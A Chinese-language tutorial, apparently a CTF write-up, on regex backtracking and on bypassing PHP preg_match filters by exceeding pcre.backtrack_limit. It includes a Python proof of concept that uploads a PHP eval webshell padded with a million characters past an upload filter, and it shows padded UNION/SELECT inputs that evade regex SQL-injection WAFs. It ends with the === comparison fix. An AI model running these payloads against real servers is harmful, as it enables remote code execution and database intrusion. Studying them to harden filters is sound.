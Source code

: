 ## 1. 没有回溯的匹配

假设我们的正则是/ab{1,3}c/，其可视化形式是：

![img](https://pic2.zhimg.com/80/v2-04def5e967e316f2b7ea3d938fa364f5_720w.png)

而当目标字符串是"abbbc"时，就没有所谓的“回溯”。其匹配过程是：

![img](https://pic3.zhimg.com/80/v2-c243a389665b1ffbc0c33cf11143d8aa_720w.png)

其中子表达式b{1,3}表示“b”字符连续出现1到3次。

## 2. 有回溯的匹配

如果目标字符串是"abbc"，中间就有回溯。

![img](https://pic2.zhimg.com/80/v2-3ed842f1e3360394e59e184accac20a1_720w.png)

图中第5步有红颜色，表示匹配不成功。此时b{1,3}已经匹配到了2个字符“b”，准备尝试第三个时，结果发现接下来的字符是“c”。那么就认为b{1,3}就已经匹配完毕。然后状态又回到之前的状态（即第6步，与第4步一样），最后再用子表达式c，去匹配字符“c”。当然，此时整个表达式匹配成功了。

图中的第6步，就是“回溯”。



像{1,3}这种属于贪婪量词他会尽可能多的去匹配,匹配不到时在回溯

```js
var string = "12345";

var regex = /(\d{1,3})(\d{1,3})/;
console.log( string.match(regex) );
// => ["12345", "123", "45", index: 0, input: "12345"]
```

其中，前面的\d{1,3}匹配的是"123"，后面的\d{1,3}匹配的是"45"。



而惰性量词则相反

惰性量词就是在贪婪量词后面加一个问号

```js
var string = "12345";
var regex = /(\d{1,3}?)(\d{1,3})/;
console.log( string.match(regex) );
// => ["1234", "1", "234", index: 0, input: "12345"]
```

其中\d{1,3}?只匹配到一个字符"1"，而后面的\d{1,3}匹配了"234"。

虽然惰性量词不贪，但也会有回溯的现象。比如正则是：

![img](https://pic2.zhimg.com/80/v2-c4d1875ca917904b976798803598a721_720w.png)



目标字符串是"12345"，匹配过程是：

![img](https://pic2.zhimg.com/80/v2-4bdddc108169c5ccc7968cd2307c3a69_720w.png)



知道你不贪、很知足，但是为了整体匹配成，没办法，也只能给你多塞点了。因此最后\d{1,3}?匹配的字符是"12"，是两个数字，而不是一个。



而常见的正则引擎，又被细分为 DFA（确定性有限状态自动机）与 NFA（非确定性有限状态自动机）。他们匹配输入的过程分别是：

> ```
> DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入
> 
> NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态
> ```

由于 NFA 的执行过程存在回溯，所以其性能会劣于 DFA，但它支持更多功能。大多数程序语言都使用了 NFA 作为正则引擎，其中也包括 PHP 使用的 PCRE 库。

# 利用正则回溯最大次数上限进行绕过

源码：

```
 <?php
 function is_php($data){
     return preg_match('/<\?.*[(`;?>].*/is', $data);
 }

 if(empty($_FILES)) {
     die(show_source(__FILE__));
 }

 $user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
 $data = file_get_contents($_FILES['file']['tmp_name']);
 if (is_php($data)) {
     echo "bad request";
 } else {
     @mkdir($user_dir, 0755);
     $path = $user_dir . '/' . random_int(0, 10) . '.php';
     move_uploaded_file($_FILES['file']['tmp_name'], $path);

     header("Location: $path", true, 303);

 }
```

一看就是要上传文件进行rce了

但是这里的正则表达式ban掉了`<?php` 之类的

上文提到的正则回溯然后量过大必然会消耗大量的时间甚至会被DOS攻击

```
PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit。我们可以通过 var_dump(ini_get(‘pcre.backtrack_limit’));的方式查看当前环境下的上限。回溯次数上限默认是 100 万。那么，假设我们的回溯次数超过了 100 万，会出现什么现象呢？preg_match 返回的非 1 和 0，而是 false。
```

![image-20210720111719449](images/1.png)

如果长度超过了100万,则会返回false

所以我们可以用超过100万的长度来是`preg_match`语句返回false从而不进入if循环来达到上传文件的目的

```
poc:
import requests
from io import BytesIO

url = "http://xxx.xxx.xxx/"

files = {
    'file': BytesIO(b'aaa<?php eval($_POST[1]);//' + b'a' * 1000000)
}

res = requests.post(url=url, files=files, allow_redirects=False)

print(res.headers)
```

然后找到路径,这里可能是ban掉了system这些,所以我直接用蚁剑连接即可

很多基于 PHP 的 WAF，如：

```
<?php
if(preg_match('/SELECT.+FROM.+/is', $input)) {
    die('SQL Injection');
}
```

均存在上述问题，通过大量回溯可以进行绕过。

另外，我遇到更常见的一种 WAF 是：

```
<?php
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

这里涉及到了正则表达式的「非贪婪模式」。在 NFA 中，如果我输入 `UNION/*aaaaa*/SELECT`，这个正则表达式执行流程如下：

> ```
> .+? 匹配到/
> 
> 因为非贪婪模式，所以.+? 停止匹配，而由 S 匹配*
> 
> S 匹配*失败，回溯，再由.+? 匹配*
> 
> 因为非贪婪模式，所以.+? 停止匹配，而由 S 匹配 a
> 
> S 匹配 a 失败，回溯，再由.+? 匹配 a
> 
> ...
> 
>  回溯次数随着 a 的数量增加而增加。所以，我们仍然可以通过发送大量 a，来使回溯次数超出 pcre.backtrack_limit 限制，进而绕过 WAF：
> ```

其实在官方文档里面介绍了

![image.png](https://www.leavesongs.com/media/attachment/2018/11/26/cfb5dda3-0643-45b0-9080-81c4a45cda56.d56b2d701229.png)

用`preg_match`一定要用===来判断返回值

参考链接:https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html

